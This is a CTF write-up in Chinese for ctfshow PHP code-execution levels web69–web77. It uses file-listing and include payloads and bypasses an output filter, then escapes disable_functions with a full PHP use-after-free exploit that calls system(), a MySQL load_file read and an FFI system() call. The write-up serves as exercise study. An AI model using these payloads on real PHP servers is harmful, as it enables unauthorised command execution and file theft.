### web69

开启容器



`c=var_dump(scandir("/"));`



其他查看路径的方法

```
c=$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
c=$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
```





不在相对路径下，查看根目录

```
c=$a=glob("/*");foreach($a as $value){echo $value."   ";}
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}（根目录）
```


然后 include 一下

`c=include('/flag.txt'); `



### web70

开启容器

直接查看根目录


`include`一下，得到 flag
`c=include('/flag.txt'); `


### web71

开启容器

尝试上一题的套路，居然全是`?`



源码：

```php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}
```

过滤替换在 eval()下面

这里可以用 exit()直接断掉后面的代码

`c=$a=glob("/*");foreach($a+as+$value){echo+$value."+++";};exit();`


`c=include('/flag.txt');exit();`


### web72

开启容器



还是截断
`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();`



include 不管用


查看网上有脚本

```php
<?php

function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() {
            global $backtrace;
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) {

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) {
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);

                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);

                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10;
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }


    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4);
    write($abc, 0xd0 + 0x68, $zif_system);

    ($helper->b)($cmd);
    exit();
}

ctfshow("cat /flag0.txt");ob_end_flush();
?>
```

`c=%0Afunction%20ctfshow(%24cmd)%20%7B%0A%20%20%20%20global%20%24abc%2C%20%24helper%2C%20%24backtrace%3B%0A%0A%20%20%20%20class%20Vuln%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%3B%0A%20%20%20%20%20%20%20%20public%20function%20__destruct()%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20global%20%24backtrace%3B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20unset(%24this-%3Ea)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20(new%20Exception)-%3EgetTrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(!isset(%24backtrace%5B1%5D%5B'args'%5D))%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20debug_backtrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20class%20Helper%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%2C%20%24b%2C%20%24c%2C%20%24d%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20str2ptr(%26%24str%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24address%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24j%20%3D%20%24s-1%3B%20%24j%20%3E%3D%200%3B%20%24j--)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%3C%3C%3D%208%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%7C%3D%20ord(%24str%5B%24p%2B%24j%5D)%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24address%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20ptr2str(%24ptr%2C%20%24m%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24out%20%3D%20%22%22%3B%0A%20%20%20%20%20%20%20%20for%20(%24i%3D0%3B%20%24i%20%3C%20%24m%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24out%20.%3D%20sprintf(%22%25c%22%2C(%24ptr%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24ptr%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24out%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20write(%26%24str%2C%20%24p%2C%20%24v%2C%20%24n%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24i%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24str%5B%24p%20%2B%20%24i%5D%20%3D%20sprintf(%22%25c%22%2C(%24v%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24v%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20leak(%24addr%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20global%20%24abc%2C%20%24helper%3B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%200x68%2C%20%24addr%20%2B%20%24p%20-%200x10)%3B%0A%20%20%20%20%20%20%20%20%24leak%20%3D%20strlen(%24helper-%3Ea)%3B%0A%20%20%20%20%20%20%20%20if(%24s%20!%3D%208)%20%7B%20%24leak%20%25%3D%202%20%3C%3C%20(%24s%20*%208)%20-%201%3B%20%7D%0A%20%20%20%20%20%20%20%20return%20%24leak%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20parse_elf(%24base)%20%7B%0A%20%20%20%20%20%20%20%20%24e_type%20%3D%20leak(%24base%2C%200x10%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20%24e_phoff%20%3D%20leak(%24base%2C%200x20)%3B%0A%20%20%20%20%20%20%20%20%24e_phentsize%20%3D%20leak(%24base%2C%200x36%2C%202)%3B%0A%20%20%20%20%20%20%20%20%24e_phnum%20%3D%20leak(%24base%2C%200x38%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24e_phnum%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24header%20%3D%20%24base%20%2B%20%24e_phoff%20%2B%20%24i%20*%20%24e_phentsize%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_type%20%20%3D%20leak(%24header%2C%200%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_flags%20%3D%20leak(%24header%2C%204%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_vaddr%20%3D%20leak(%24header%2C%200x10)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_memsz%20%3D%20leak(%24header%2C%200x28)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%206)%20%7B%20%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_addr%20%3D%20%24e_type%20%3D%3D%202%20%3F%20%24p_vaddr%20%3A%20%24base%20%2B%20%24p_vaddr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%205)%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24text_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%0A%20%20%20%20%20%20%20%20if(!%24data_addr%20%7C%7C%20!%24text_size%20%7C%7C%20!%24data_size)%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20false%3B%0A%0A%20%20%20%20%20%20%20%20return%20%5B%24data_addr%2C%20%24text_size%2C%20%24data_size%5D%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_basic_funcs(%24base%2C%20%24elf)%20%7B%0A%20%20%20%20%20%20%20%20list(%24data_addr%2C%20%24text_size%2C%20%24data_size)%20%3D%20%24elf%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24data_size%20%2F%208%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20%24i%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x746e6174736e6f63)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20(%24i%20%2B%204)%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflag0.txt%22)%3Bob_end_flush()%3B%0A%3F%3E%0A`



### web73

`c=$a=glob("/*");foreach($a as $value){echo $value."   ";};exit();`


`c=include('/flagc.txt');exit();`

### web74

与上题相同思路
`c=$a=glob("/*");foreach($a as $value){echo $value."   ";};exit();`


`c=include('/flagx.txt');exit();`



### web75

开启容器

`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();`





`c=include('/flag36.txt');exit();`



include 用不了

但是 include 读取不成功这里查了一下发现要用 mysql 的 load_file 读取文件
这题的思路是通过 PDO（PHP 操作多种数据库的统一接口）对数据库进行访问，执行 SQL 语句得到 flag。

这个感觉很难在实战实现，还需要`PDO('mysql:host=localhost;dbname=ctftraining', 'root','root')`
数据库多个敏感信息

```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);
```

上传后需要 url 编码一下

`c=try%20%7B%24dbh%20%3D%20new%20PDO('mysql%3Ahost%3Dlocalhost%3Bdbname%3Dctftraining'%2C%20'root'%2C'root')%3Bforeach(%24dbh-%3Equery('select%20load_file(%22%2Fflag36.txt%22)')%20as%20%24row)%7Becho(%24row%5B0%5D).%22%7C%22%3B%20%7D%24dbh%20%3D%20null%3B%7Dcatch%20(PDOException%20%24e)%20%7Becho%20%24e-%3EgetMessage()%3Bexit(0)%3B%7Dexit(0)%3B`



### web76

`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();`



与上题一样

```php
c=try {
  $dbh = new PDO('mysql:host=localhost;dbname=information_schema', 'root', 'root');
  foreach($dbh->query('select load_file("/flag36d.txt")') as $row) {
      echo($row[0])."|";
  }
  $dbh = null;
} catch (PDOException $e) {
  echo $e->getMessage();
  die();
};exit();
```



### web77

`c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");};exit();`


之前读取数据库方法



用 PHP 中的 FFI（Foreign Function Interface）来调用 C 语言的 system 函数，并执行一个 Shell  命令。

```perl
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象$a='/readflag > 1.txt';//没有回显的$ffi->system($a);//通过$ffi去调用system函数
```

FFI::cdef 方法用于定义 C 函数原型，其中 int system(const char \*command); 是 C 语言中 system  函数的声明。system 函数接受一个字符串参数（即 Shell 命令），并在系统的命令行中执行该命令；

之后执行 /readflag 程序并将其输出重定向到文件 1.txt；

通过 FFI 对象 $ffi 调用了前面定义的 system 函数，并传递了字符串变量 $a 作为参数。也就是说，实际执行的是 Shell 命令 /readflag > 1.txt，效果是在系统中运行 /readflag 程序，并将其输出结果保存到当前目录下的 1.txt 文件中。

我们先来试一下，payload：

```perl
c=$ffi = FFI::cdef("int system(const char *command);");$a='/readflag > 1.txt';$ffi->system($a);
```



之后访问 1.txt，即可看到 flag：


